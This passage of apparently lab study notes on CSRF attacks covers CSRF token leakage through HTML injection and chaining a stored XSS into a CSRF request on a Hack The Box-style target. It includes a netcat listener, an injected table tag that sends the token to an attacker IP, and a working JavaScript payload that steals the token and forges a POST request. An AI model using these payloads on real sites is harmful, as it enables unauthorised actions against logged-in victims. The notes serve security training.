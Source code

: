       </body>
    </html>
    ```
  
  * once the page is hosted, while victim is logged in, we can open a new tab and visit the crafted webpage like before

* CSRF (POST-based):

  * for given webapp, we have a 'Delete' functionality - clicking on it leads us to '/app/delete/user@example.com', and the webpage too mentions the email

  * if we try inputting some HTML values in the email value in URL - like ```<h1>h1<u>underline<%2fu><%2fh1>``` - we can see the payload is reflected in page as well

  * from page source, we can also view that the injection happens before a single-quote (used for next attribute); we can abuse this to leak the CSRF token

  * start listening using netcat - ```nc -nvlp 8000``` - and we can use this payload in URL - ```<table%20background='%2f%2f10.10.120.14:8000%2f``` (URL-decoded form of ```<table background='//10.10.120.14:8000/```)

  * while we are still logged in, if we visit the page ```http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f10.10.120.14:8000%2f```, we can see the CSRF token in netcat

## XSS & CSRF Chaining

* For given app, it's mentioned that same origin/same site protections are used as anti-CSRF measures. We also have a given field ('Country') vulnerable to stored XSS attacks

* We can intercept a few requests to understand the app, following which we can craft a payload for 'Country' field to successfully execute a CSRF attack changing victim's visibility settings. Example payload:

  ```js
  // wrapped in <script> so that it is rendered as JS
  <script>
  var req = new XMLHttpRequest(); // creates an objectvariable called req - to generate a request
  req.onload = handleResponse; // onload event handler - performs action once page has been loaded
  req.open('get','/app/change-visibility',true); // arguments - request method, targeted path and 'true'
  req.send(); // sends the request

  function handleResponse(d) {
      var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1]; // token gets value of responseText from page specified in request
      // the way to identify this differs in each app - so we can inspect page or source code
      var changeReq = new XMLHttpRequest(); // to construct HTTP request to be sent through XMLHttpRequest object
      changeReq.open('post', '/app/change-visibility', true); // after first request to move to targeted page, we change request method from GET to POST
      changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); // set Content-Type header
      changeReq.send('csrf='+token+'&action=change'); // send request with data of 2 parameters - csrf with token value, and action with 'change' value
      // these values were derived after intercepting request while changing visibility of profile
  };
  </script>
  ```
